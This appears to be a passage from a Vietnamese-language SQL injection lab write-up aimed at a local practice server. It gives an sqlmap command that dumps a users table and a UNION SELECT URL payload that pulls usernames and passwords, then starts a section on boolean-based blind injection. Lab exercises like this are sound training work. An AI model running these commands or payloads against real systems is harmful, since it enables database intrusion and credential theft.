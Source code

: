 ```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/find-password/?search=" --batch --level 5 --risk 3 --dbms=MySQL -D sql_injection -T users --dump
```
![alt text](./src/image-10.png)
Cách 2:
```
http://192.168.106.131:1337/lab/sql-injection/find-password/?search=a%27+union+select+id,username,password,4,5,6+from+users+--+
```
![alt text](./src/image-11.png)
### 3.3 Boolean-Based Blind SQL Injection
Nhìn tổng quan trang web là ứng dụng quản lý kho , cho phép kiểm tra tình trạng tồn kho của sản phẩm